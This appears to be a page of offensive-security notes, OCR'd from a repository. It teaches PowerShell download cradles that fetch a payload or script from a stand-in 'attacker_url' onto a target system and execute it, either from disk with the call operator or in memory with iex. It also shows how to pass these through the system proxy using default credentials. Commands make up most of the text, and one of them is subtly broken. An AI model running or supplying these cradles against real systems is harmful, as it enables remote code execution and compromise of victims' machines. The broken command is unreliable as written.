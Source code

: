 Although it is noisy and not reccomended if trying to remain stealthy, its still sometimes a handy method
to quickly download a file to the target system


PS C:\> $downloader = New-Object System.Net.WebClient
PS C:\> $payload = "http://attacker_url/payload.exe"
PS C:\> $local_file = "C:\programdata\payload.exe"
PS C:\> $downloader.DownloadFile($payload,$local_file)

the Local File variable is where the file will be saved to



Executing the file once its on our target system can be accomplished using the call operator (&) and
variable we created for the payload ($local_file): 

PS C:\> & $local_file



It should also be noted that the Net.WebClient class methods can be configured to use the systems'
proxy and default credentials with the following commands:



PS C:\> $downloader = New-Object System.Net.WebClient
PS C:\> $payload = "http://attacker_url/script.ps1"
PS C:\> $cmd = downloader.DownloadFile($payload)
PS C:\> $proxy = [Net.WebRequest]::GetSystemWebProxy()
PS C:\> $proxy.Credentials = [Net.CredentialCache]::DefaultCredentials
PS C:\> $downloader.Proxy = $proxy
PS C:\> iex $cmd


Aside from the Net.WebClient class, we can also use the Net.WebRequest class to download and excute 
scripts on a target, in memory

PS C:\> $req = [System.Net.WebRequest]::Create("http://attacker_url/script.ps1")
PS C:\> $res = $req.GetResponse()
PS C:\> iex ([System.IO.StreamReader]($res.GetResponseStream())).ReadToEnd()



The first line instantiates our System.Net.WebRequest class as the $req variable

The second line creates a $res variable to store the WebRequest response

The third line uses the Invoke-Expression alias (iex) to invoke the System.IO.StreamReader and 
execute our code



Similiar to the Net.WebClient class, the Net.WebRequest class can also be configured to use a proxy as 
follows:


PS C:\> $req = [System.Net.WebRequest]::Create("http://attacker_url/script.ps1")
PS C:\> $res = $req.GetResponse()
PS C:\> $proxy = [Net.WebRequest]::GetSystemWebProxy()
PS C:\> $proxy.Credentials = [Net.CredentialCache]::DefaultCredentials
PS C:\> $req.Proxy = $proxy
PS C:\> iex ([System.IO.StreamReader]($res.GetResponseStream())).ReadToEnd()
